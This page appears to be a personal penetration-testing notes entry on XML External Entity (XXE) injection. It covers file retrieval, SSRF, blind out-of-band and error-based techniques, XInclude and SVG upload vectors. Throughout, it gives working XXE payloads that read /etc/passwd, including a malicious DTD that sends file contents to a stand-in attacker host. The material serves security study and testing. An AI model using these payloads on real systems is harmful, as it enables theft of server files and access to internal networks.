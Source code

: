 ```yaml
---
title: XXE Injection
category: Web
order: 16
---
```


XML External Entity injection as known as XXE is a vulnerability that allowss an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server and interact with any back-end or external systems that the application itself can access.

It can be also leverage to a SSRF attack.

There are various types of XXE attacks: 

* To retrieve files 
* To perform SSRF attacks
* Exfiltrate data out-of-band
* To retrieve data via error messages

# Exploiting XXE to retrieve files

To retrieve files we need to modify the `DOCTYPE` element that defines an external entity containing the path to the file and edit a value in the XML that is returned in the application's response.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

> **Note**: We need to generally test each data node in the XML individually.


# Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF). This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://example.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Blind XXE vulnerabilities

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two ways in which we can find and exploit an XXE vuln:

* Trigger out-of-band network interactions, sometimes exfiltrating sensitive data.
* Trigger XML parsing errors in such a way that the error message contains senstive data.

## Detecting blind XXE using out-of-band (OAST) techniques

We can detect blind XXE using the same technique as for XXE SSRF attack.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://collaborator.burp.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Some times XXE attacks using regular entities are blocked due to some input validation. In this situation we might be able to use **XML parameters entities** instead.

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://collaborator.burp.com/"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band

We can **host a malicious DTD** from within the in-band XXE payload.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

Once hosted our malicious DTD for example in `http://attacker.com/malicious.dtd` we can submit the following XXE payload with XML parameter on the vulnerable application.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

> **Note**: This technique might not work with some file contents, including the newline characters. Try to use `ftp` instead of `http`. `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"ftp://web-attacker.com/malicious.dtd"> %xxe;]>`

## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response. 

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
* Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
* Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

# Hidden attack surface for XXE injection

## XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend **SOAP service**. 

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead.

```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example of exploitation:

![](/hackingnotes/images/xxe.png)

## File Upload

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can **submit a malicious SVG image** and so reach hidden attack surface for XXE vulnerabilities. 

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

> **Note**: The content will be visible on the upload image as data. You can use a OCR to retrieve all the text.

## Via modified content type

Most `POST` requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML. 

Example of normal request:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then we might be able to submit an XML.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```